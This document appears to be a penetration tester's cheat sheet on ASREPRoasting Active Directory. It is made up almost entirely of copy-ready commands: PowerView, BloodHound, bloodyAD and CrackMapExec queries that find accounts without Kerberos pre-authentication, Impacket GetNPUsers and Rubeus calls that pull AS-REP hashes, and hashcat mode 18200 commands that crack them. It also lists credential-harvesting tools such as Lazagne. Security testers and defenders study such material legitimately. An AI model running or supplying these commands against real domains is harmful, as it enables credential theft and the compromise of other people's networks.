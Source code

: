 # ASREPRoast

## Tools: Rubeus , Impacket-GetNPUsers

### ASREPRoast

## Find ASREPRoastable users (need creds)

#### 1) Powerview

    Get-DomainUser -PreauthNotRequired -Properties SamAccountName

#### 2) Bloodhound Cypher Query

    MATCH(u:User {dontreqpreauth:true}). (c:Computer). p=shortestPath((u)-[*1..]->(c)) RETURN p 

## Find ASREP hash

    Impacket-GetNPUsers DOMAIN/ -usersfile USERNAMES.TXT -format hashcat -dc-ip DC_IP -dc-host DC.DOMAIN.LOCAL -outputfile HASHES.DOMAIN.TXT

    Rubeus.exe asreproast /format:hashcat

### Occurs when a user account has the privilege "Does not require Pre-Authentication" set.

### This means the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

## Requirements:

### Accounts with the attribute DONT_REQ_PREAUTH ( PowerView > Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose )

#### 

    Impacket-GetNPUsers.py domain.com\john.doe -no-pass (Retrieves a TGT)

### You can also do:

#### 1) Gather domain accounts in a list

#### 2) 

    python3 Impacket-GetNPUsers.py -dc-ip DC_IP DOMAIN/USER -outputfile /tmp/list.txt

# Enumeration (Need domain credentials)

## Windows

    Get-DomainUser -PreauthNotRequired -verbose (Powerview)

## Linux 

    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName  

## Method: Impacket GetNPUsers

##### Enumerate Users

    GetNPUsers.py -dc-ip <DC_IP> domain.local/user1:password

##### Request AS-REP 

    GetNPUsers.py -dc-ip <DC_IP> -request -format john domain.local/user1:password

It is possible to force DES if it is allowed.

    python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast (Try all the usernames in usernames.txt)

    python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast (Use domain creds to extract targets and target them)

## Alternate Method: CrackMapExec

 -  crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --asrep

## Alternate Method: ASREPRoast powershell module https://github.com/HarmJ0y/ASREPRoast

 - Get-ASREPHash -Username VPN114user -verbose

### More tools:

#### 1) Snaffler

#### 2) Lazagne

#### 3) Seatbelt

# Asreproasting

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `.\Rubeus.exe asreproast /outfile:asrep.txt`                 | Used to perform the Asreproast attack and save the extracted tickets to a file. |
| `hashcat -m 18200 -a 0 asrep.txt passwords.txt --force`      | Uses `hashcat` to crack AS-REP hashes that were saved in a file. |


